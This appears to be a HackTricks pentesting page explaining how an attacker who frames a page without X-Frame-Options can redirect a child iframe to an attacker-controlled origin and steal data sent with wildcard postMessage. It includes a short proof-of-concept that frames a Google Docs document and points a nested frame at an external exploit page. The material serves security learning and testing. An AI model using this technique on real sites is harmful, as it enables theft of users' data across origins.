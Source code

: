 # Steal postmessage modifying iframe location

{{#include ../../banners/hacktricks-training.md}}

## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.

For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to evil.com cross origin using, **`frames.location`**.

This is specially useful in **postMessages** because if a page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the related iframe (child or parent) to an attackers controlled location** and steal that data.

```html
<html>
  <iframe src="https://docs.google.com/document/ID" />
  <script>
    //pseudo code
    setTimeout(function () {
      exp()
    }, 6000)

    function exp() {
      //needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
      setInterval(function () {
        window.frames[0].frame[0][2].location =
          "https://geekycat.in/exploit.html"
      }, 100)
    }
  </script>
</html>
```

{{#include ../../banners/hacktricks-training.md}}



